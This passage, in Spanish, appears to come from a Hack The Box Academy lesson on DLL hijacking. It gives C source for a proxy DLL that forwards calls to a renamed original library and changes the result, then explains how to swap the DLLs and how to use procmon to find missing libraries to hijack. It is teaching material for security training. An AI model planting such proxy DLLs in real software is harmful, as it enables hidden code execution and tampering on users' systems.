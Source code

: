 ```r
// tamper.c
#include <stdio.h>
#include <Windows.h>

#ifdef _WIN32
#define DLL_EXPORT __declspec(dllexport)
#else
#define DLL_EXPORT
#endif

typedef int (*AddFunc)(int, int);

DLL_EXPORT int Add(int a, int b)
{
    // Load the original library containing the Add function
    HMODULE originalLibrary = LoadLibraryA("library.o.dll");
    if (originalLibrary != NULL)
    {
        // Get the address of the original Add function from the library
        AddFunc originalAdd = (AddFunc)GetProcAddress(originalLibrary, "Add");
        if (originalAdd != NULL)
        {
            printf("============ HIJACKED ============\n");
            // Call the original Add function with the provided arguments
            int result = originalAdd(a, b);
            // Tamper with the result by adding +1
            printf("= Adding 1 to the sum to be evil\n");
            result += 1;
            printf("============ RETURN ============\n");
            // Return the tampered result
            return result;
        }
    }
    // Return -1 if the original library or function cannot be loaded
    return -1;
}
```

Compílalo o usa la versión precompilada proporcionada. Renombra `library.dll` a `library.o.dll`, y renombra `tamper.dll` a `library.dll`.

Ejecutar `main.exe` luego muestra el hack exitoso.

![image](https://academy.hackthebox.com/storage/modules/67/proxy.png)

### Invalid Libraries

Otra opción para ejecutar un ataque de DLL Hijack es reemplazar una librería válida que el programa está intentando cargar pero no puede encontrar con una librería elaborada. Si cambiamos el filtro de procmon para centrarnos en entradas cuyo camino termine en `.dll` y tenga un estado de `NAME NOT FOUND`, podemos encontrar tales librerías en `main.exe`.
